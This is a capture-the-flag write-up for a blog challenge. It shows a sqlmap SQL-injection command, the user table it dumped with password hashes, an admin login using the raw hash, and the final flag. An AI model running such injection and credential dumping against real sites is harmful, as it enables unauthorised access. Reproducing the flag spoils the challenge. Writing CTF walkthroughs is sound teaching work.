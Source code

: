 ## The Movie Blog

Challenge text: 

My boss sucks. He keeps telling me to say that I like terrible movies. I can't publish anything without getting his okay. Can you figure out how to get into his account and publish some new articles for me?

![alt text](img/blog.PNG "home")

Solve:

- Reviewed the site for a bit and created an account with the user and pass asdf 
- Ran sqlmap with a session cookie: `sqlmap -u https://thecybercoopctf-0a608aacfa7a-the-movie-blog-0.chals.io/3 --cookie="session=MTcwMjc2NzU3MnxEdi1CQkFFQ180SUFBUkFCRUFBQVZ2LUNBQU1HYzNSeWFXNW5EQVFBQW1sa0JIVnBiblFHQWdBREJuTjBjbWx1Wnd3R0FBUnVZVzFsQm5OMGNtbHVad3dHQUFSaGMyUm1Cbk4wY21sdVp3d0dBQVJ5YjJ4bEJuTjBjbWx1Wnd3R0FBUjFjMlZ5fJxUUU5xBPTW4H-c-F2WJAiQElNZnqfICgz3rRE5Q4PQ" --dbms=SQLite`
- Sqlmap retrived the user table

```
Table: users
[3 entries]
+----+--------+--------+---------------------------+----------------------------------+
| id | name   | role   | email                     | password                         |
+----+--------+--------+---------------------------+----------------------------------+
| 1  | admin  | admin  | admin@challenge.services  | 3ac63c3f8d63a4f5139ab8f2f8f856ec |
| 2  | editor | editor | editor@challenge.services | 4da38621742d2862719f4662b12e70b7 |
| 3  | asdf   | user   | asdf@asdf.com             | asdf                             |
+----+--------+--------+---------------------------+----------------------------------+
```

- I just recently registered the asdf account so I didn't get sidetracked with cracking hashes
- Logged into the admin account with the hash as the password
- Navigated to /admin and discovered the Publish area

![alt text](img/blogadmin.PNG "Publish")

- The challenge provided partial source and one of those pieces covered the publish area

```
admin.Use(AdminRequired)
        {
                admin.POST("/posts/publish", func(c *gin.Context) {
                        c.HTML(200, "message.html", pongo2.Context{
                                "message": FLAG,
```

- So it looks like if we are logged in as admin and go through the publish process we will receive the flag
- Attempts to create a post did not produce the flag
- Navigated to one of the default posts and hit submit and the flag was displayed

![alt text](img/edit.PNG "flag")

- Final flag is `flag{i_see_a_ship_in_the_harbor_i_can_and_shall_obey}`
